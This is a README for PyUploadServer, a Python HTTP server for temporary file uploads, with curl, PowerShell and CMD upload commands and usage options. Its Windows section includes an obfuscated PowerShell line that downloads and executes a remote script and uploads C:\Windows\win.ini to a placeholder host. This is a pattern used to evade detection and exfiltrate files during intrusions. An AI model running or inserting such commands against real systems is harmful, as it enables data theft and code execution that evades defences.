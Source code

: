 ## PyUploadServer

Modified from https://github.com/tarunKoyalwar/TempUpServer

## Features

- Works Fine on Both Windows and Linux.
- `localhost/upload` => Upload using Browser
- ['.py,'.ipynb'] are blacklisted can be changed in code.


## Uploading Using CLI

### Linux
- Using Curl
```shell
curl -k http://IP:PORT/ -F file=@FILANME
```

### Windows

Powershell (If SSL is enabled, it fails due to the self-signed certificate.)
```shell
$wc = New-Object System.Net.WebClient; $resp = $wc.UploadFile('http://IP:PORT/', "C:\Windows\win.ini")

or

i`e`x(iWr -UsEbaSIcparSING http://IP:PORT/Invoke-Upload.ps1); Invoke-Upload "C:\Windows\win.ini"
```

CMD: Supported on Windows 10 version 1803 and later.
```shell
cmd /c curl -k http://IP:PORT/ -F file=@logo.png
```


### Usage
```
usage: upserver.py [-h] [-i IP] [-p PORT] [-d DIRECTORY] [-ssl] [-bindall] [-cn COMMON_NAME]

A Simple http server to upload for temporary use

options:
  -h, --help            show this help message and exit
  -i IP, --ip IP        IP or network interface
  -p PORT, --port PORT  Port to use avoid using 80,443 for non root user
  -d DIRECTORY, --directory DIRECTORY
                        Working Directory
  -ssl, --ssl           Enable HTTPS
  -bindall, --bindall   Bind on all network interface
  -cn COMMON_NAME, --common-name COMMON_NAME
                        Certificate common name
```

Example:
```
python3 upserver.py -i <IP or Interface> -p <Port> -d <Optional:Folder>
python3 upserver.py -i eth0 -p 8888 -d uploads
python3 upserver.py -i eth0 -p 8888 -d uploads -ssl -bindall
```

## Built With

* [Python3]

